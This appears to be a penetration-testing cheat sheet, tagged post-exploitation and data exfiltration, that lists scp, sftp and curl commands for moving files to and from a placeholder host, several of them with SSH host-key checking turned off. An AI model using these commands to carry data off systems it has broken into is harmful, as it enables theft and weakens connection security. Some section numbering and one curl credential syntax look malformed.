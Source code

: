 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - file-transfer-and-data-exfiltration
  - network-ports
  - ssh
  - linux
---
```

# Usage

## 01 - Installation

### 1.1 - OpenSSH Client

```
$ sudo apt install -y openssh-client

$ sudo yum install -y openssh-client

$ sudo dnf install -y openssh-client

$ sudo pacman -S --noconfirm openssh

$ sudo apk add --no-cache --quiet openssh
```

### 1.2 - cURL

![[Core Utilities#^cb5d15]]
## 02 - Upload

### 2.1 - `scp`

```
> scp /path/to/file.txt -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" -i id_rsa <username>@<IP>:.
```

**I**mprove `scp` file transfer's speed by **using blowfish** and `compression` flag of `-C`.

```
> scp -Cc blowfish /path/to/file.txt -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" -i id_rsa <username>@<IP>:.

> scp -o HostKeyAlgorithms=+ssh-rsa /path/to/file.txt <username>@<IP>:.
```

### 2.2 - `sftp`

```
$ sftp [-P <PORT>] <username>@<IP>
```

### 2.3 - `curl`

```
$ curl -T /path/to/file.txt sftp://<username>@<password>@<IP>

$ curl -u <username>:<password> -T /path/to/file.txt sftp://<IP>

$ curl -u <username> [--key-type <DER | PEM | ENG>] --key ~/.ssh/id_rsa --pubkey ~/.ssh/id_rsa.pub -T /path/to/file.txt "sftp://sftp.example.com/"
```

## 03 - Download

```
> scp <username>@<IP>:/path/to/file.txt -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" -i id_rsa .
```

Improve `scp` file transfer's speed by **using blowfish** and `compression` flag of `-C`.

```
> scp -Cc blowfish <username>@<IP>:/path/to/file.txt -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" -i id_rsa .

> scp -o HostKeyAlgorithms=+ssh-rsa <username>@<IP>:/path/to/file.txt .
```

### 2.2 - `sftp`

```
$ sftp [-P <PORT>] <username>@<IP>
```

### 2.3 - `curl`

```
$ curl -O sftp://<username>@<password>@<IP>/file.txt

$ curl -u <username>:<password> -O sftp://<IP>/file.txt

$ curl -u <username> [--key-type <DER | PEM | ENG>] --key ~/.ssh/id_rsa --pubkey ~/.ssh/id_rsa.pub -O "sftp://sftp.example.com/file.txt"
```